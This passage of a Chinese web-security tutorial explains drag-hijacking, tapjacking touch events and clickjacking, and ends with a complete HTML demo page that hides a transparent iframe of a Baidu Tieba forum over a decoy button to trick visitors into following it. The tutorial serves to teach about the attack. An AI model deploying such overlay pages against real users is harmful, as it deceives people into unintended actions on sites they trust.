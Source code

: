 “拖拽劫持”的思路是诱使用户从隐藏的不可见iframe中拖拽出攻击者希望得到的数据，然后放到攻击者能够控制的另外一个页面，从而窃取数据。

### 触屏劫持（TapJacking）

触屏，从手机OS的角度来看，触屏实际上就是一个事件，手机OS捕捉这些事件，并执行相应的动作。

一次触屏操作，可能会对应一下几个事件的发生：

- touchstart，手指触摸屏幕时发生；
- Touchend，手指离开屏幕时发生；
- Touchmove，手指滑动时发生；
- Touchcancel，系统可取消touch事件

## 攻击示例

点击劫持（ClickJacking）是一种视觉上的欺骗手段。大概有两种方式，一是攻击者使用一个透明的iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的iframe页面；二是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义。

![img](https://www.pdai.tech/images/security/dev-security-clickjack-1.png)

### iframe覆盖（嵌入iframe框）

> 以下是网上的一个例子，忽略其真实性和意义，只是辅助你理解其思路

假如我们在百度有个贴吧，想偷偷让别人关注它。于是我们准备一个页面：

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
    <head>
    <title>点击劫持</title>
    <style>
        html,body,iframe{
            display: block;
            height: 100%;
            width: 100%;
            margin: 0;
            padding: 0;
            border:none;
        }
        iframe{
            opacity:0;
            filter:alpha(opacity=0);
            position:absolute;
            z-index:2;
        }
        button{
            position:absolute;
            top: 315px;
            left: 462px;
            z-index: 1;
            width: 72px;
            height: 26px;
        }
    </style>
    </head>
    <body>
        那些不能说的秘密
        <button>查看详情</button>
        <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
    </body>
</html>
```
